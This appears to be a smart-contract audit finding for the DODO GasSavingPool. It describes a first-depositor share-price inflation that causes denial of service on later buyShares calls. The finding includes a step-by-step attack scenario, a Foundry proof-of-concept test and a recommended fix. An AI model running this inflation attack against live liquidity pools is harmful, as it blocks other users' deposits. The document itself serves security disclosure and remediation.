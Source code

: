 Suave Jetblack Kookaburra

medium

# Share Price Inflation by First LP-er, Enabling DOS Attacks on Subsequent buyShares with Up to 1001x the Attacking Cost

## Summary
The smart contract contains a critical vulnerability that allows a malicious actor to manipulate the share price during the initialization of the liquidity pool, potentially leading to a DOS attack on subsequent buyShares operations.

## Vulnerability Detail
The root cause of the vulnerability lies in the initialization process of the liquidity pool, specifically in the calculation of shares during the first deposit.
```solidity
// Findings are labeled with '<= FOUND'
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol
31:    function buyShares(address to)
        ...
57:            // case 1. initial supply
58:            // The shares will be minted to user
59:            shares = quoteBalance < DecimalMath.mulFloor(baseBalance, _I_) // <= FOUND
60:                ? DecimalMath.divFloor(quoteBalance, _I_)
61:                : baseBalance; // @audit-info mint shares based on min balance(base, quote)
62:            // The target will be updated
63:            _BASE_TARGET_ = uint112(shares);
            ...
82:    }
```

If the pool is empty, the smart contract directly sets the share value based on the minimium value of the base token  denominated value of the provided assets. This assumption can be manipulated by a malicious actor during the first deposit, leading to a situation where the LP pool token becomes extremely expensive.

### Attack Scenario
The attacker exploits the vulnerability during the initialization of the liquidity pool:

1. The attacker mints 1001 shares during the first deposit.

2. Immediately, the attacker sells back 1000 shares, ensuring to keep 1 wei via the `sellShares` function.

3. The attacker then donates a large amount (1000e18) of base and quote tokens and invokes the `sync()` routine to pump the base and quote reserves to 1001 + 1000e18.

4. The protocol users proceed to execute the `buyShares` function with a balance less than `attacker's spending * 1001`. The transaction reverts due to the `mintRatio` being kept below 1001 wad and the computed `shares` less than 1001 (line 71), while it needs a value >= 1001 to mint shares successfully.
```solidity
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol
31:    function buyShares(address to)
        ...
66:            // case 2. normal case
67:            uint256 baseInputRatio = DecimalMath.divFloor(baseInput, baseReserve);
68:            uint256 quoteInputRatio = DecimalMath.divFloor(quoteInput, quoteReserve);
69:            uint256 mintRatio = quoteInputRatio < baseInputRatio ? quoteInputRatio : baseInputRatio; // <= FOUND: mintRatio below 1001wad if input amount smaller than reserves * 1001
70:            // The shares will be minted to user
71:            shares = DecimalMath.mulFloor(totalSupply, mintRatio); // <= FOUND: the manipulated totalSupply of 1wei requires a mintRatio of greater than 1000 for a successful _mint()
            ...
82:    }
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPVault.sol
294:    function _mint(address user, uint256 value) internal {
295:        require(value > 1000, "MINT_AMOUNT_NOT_ENOUGH"); // <= FOUND: next buyShares with volume less than 1001 x attacker balance will revert here
...
300:    }
```

5. The `_mint()` function fails with a "MINT_AMOUNT_NOT_ENOUGH" error, causing a denial-of-service condition for subsequent buyShares operations.

### POC
Apply the POC to `dodo-gassaving-pool/test/GPSTrader.t.sol` and run with `cd dodo-gassaving-pool && forge test --fork-url "https://rpc.flashbots.net" -vvv --mt test_mint1weiShares_DOSx1000DonationVolume` to check the result.

```solidity
// File: dodo-gassaving-pool/test/GPSTrader.t.sol
    function test_mint1weiShares_DOSx1000DonationVolume() public {
        GSP gspTest = new GSP();
        gspTest.init(
            MAINTAINER,
            address(mockBaseToken),
            address(mockQuoteToken),
            0,
            0,
            1000000,
            500000000000000,
            false
        );

        // Buy 1001 shares
        vm.startPrank(USER);
        mockBaseToken.transfer(address(gspTest), 1001);
        mockQuoteToken.transfer(address(gspTest), 1001 * gspTest._I_() / 1e18);
        gspTest.buyShares(USER);
        assertEq(gspTest.balanceOf(USER), 1001);

        // User sells shares and keep ONLY 1wei
        gspTest.sellShares(1000, USER, 0, 0, "", block.timestamp);
        assertEq(gspTest.balanceOf(USER), 1);

        // User donate a huge amount of base & quote tokens to inflate the share price
        uint256 donationAmount = 1000e18;
        mockBaseToken.transfer(address(gspTest), donationAmount);
        mockQuoteToken.transfer(address(gspTest), donationAmount * gspTest._I_() / 1e18);
        gspTest.sync();
        vm.stopPrank();

        // DOS subsequent operations with roughly 1001 x donation volume
        uint256 dosAmount = donationAmount * 1001;
        mockBaseToken.mint(OTHER, type(uint256).max);
        mockQuoteToken.mint(OTHER, type(uint256).max);

        vm.startPrank(OTHER);
        mockBaseToken.transfer(address(gspTest), dosAmount);
        mockQuoteToken.transfer(address(gspTest), dosAmount * gspTest._I_() / 1e18);

        vm.expectRevert("MINT_AMOUNT_NOT_ENOUGH");
        gspTest.buyShares(OTHER);
        vm.stopPrank();
    }
```

A PASS result would confirm that any deposits with volume less than 1001 times to attacker cost would fail. That means by spending $1000, the attacker can DOS any transaction with volume below $1001,000.


## Impact
The impact of this vulnerability is severe, as it allows an attacker to conduct DOS attacks on buyShares with a low attacking cost (retrievable for further attacks via `sellShares`). This significantly impairs the core functionality of the protocol, potentially preventing further LP operations and hindering the protocol's ability to attract Total Value Locked (TVL) for other trading operations such as sellBase, sellQuote and flashloan.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L56-L65

## Tool used
Foundry test

## Recommendation
A mechanism should be implemented to handle the case of zero totalSupply during initialization. A potential solution is inspired by [Uniswap V2 Core Code](https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L119-L124), which sends the first 1001 LP tokens to the zero address. This way, it's extremely costly to inflate the share price as much as 1001 times on the first deposit.

```patch
// File: dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol
31:    function buyShares(address to)
        ...
56:        if (totalSupply == 0) {
57:            // case 1. initial supply
58:            // The shares will be minted to user
59:            shares = quoteBalance < DecimalMath.mulFloor(baseBalance, _I_)
60:                ? DecimalMath.divFloor(quoteBalance, _I_)
61:                : baseBalance; 
+             _mint(address(0), 1001); // permanently lock the first MINIMUM_LIQUIDITY of 1001 tokens, makes it imposible to manipulate the totalSupply to 1 wei
...
``` ...
```